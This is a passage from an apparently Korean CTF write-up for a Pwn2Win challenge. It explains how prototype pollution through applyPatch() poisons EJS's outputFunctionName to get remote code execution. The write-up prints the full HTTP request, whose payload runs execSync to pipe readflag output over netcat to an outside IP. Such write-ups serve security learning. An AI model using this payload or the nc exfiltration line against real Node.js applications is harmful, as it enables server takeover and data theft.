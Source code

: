 
```js
  compile: function () {
    /** @type {string} */
    ...
    if (!this.source) {
      this.generateSource();
      prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
    ...
```
`compile()` 메서드를 확인 해보면 `outputFunctionName`을 이용해서 문자열을 만드는 것을 볼 수 있다. 즉, 우리는 `applyPatch()`에서 발생하는 `Prototype Pollution` 취약점을 이용해서 `compile()` 메서드에서 사용되는 `outputFunctionName` 값을 잘 조작해 문자열을 맞춰 RCE를 발생시켜야 한다.

```
POST /change_status HTTP/1.1
Host: illusion.pwn2win.party:44211
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cXp0bG5mdXlzZXVxeWpmaQ==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.687081227.1622238128; _gid=GA1.2.492571223.1622429990
Content-Type: application/json
Connection: close
Content-Length: 155

{
    "constructor/prototype/outputFunctionName": "_; process.mainModule.require('child_process').execSync('./readflag | nc 141.164.52.207 80');//"
}
```
그래서 위와 같이 값을 보내 `Prototype Pollution`을 이용해서 `outputFunctionName`의 값을 `value` 값으로 오염을 시켜주었다.


![](https://github.com/wjddnjs33/image/blob/main/prototype/flag.png?raw=true)

그리고 index 페이지로 접속을 하게 되면 `ejs.renderFile()` 메서드가 실행 될 때, 이미 `outputFunctionName`의 값이 js exploit code로 오염이 되어 있어 RCE가 발생해 플래그를 얻을 수 있었다.

```plaintext
FLAG : CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
```
